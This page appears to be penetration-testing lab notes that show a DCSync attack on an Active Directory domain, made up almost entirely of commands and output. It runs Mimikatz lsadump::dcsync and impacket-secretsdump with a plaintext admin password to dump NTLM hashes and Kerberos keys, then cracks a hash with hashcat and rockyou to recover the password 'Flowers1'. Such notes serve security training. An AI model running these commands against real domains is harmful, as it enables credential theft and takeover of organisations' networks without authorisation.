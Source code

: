{% code title="Using Hashcat to crack the NTLM hash obtained by the dcsync attack" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1              
...
```
{% endcode %}

{% code title="Using Mimikatz to perform a dcsync attack to obtain the credentials of the domain administrator Administrator" overflow="wrap" lineNumbers="true" %}
```
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```
{% endcode %}

### impacket-secretsdump

{% code title="Using secretsdump to perform the dcsync attack to obtain the NTLM hash of dave" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```
{% endcode %}
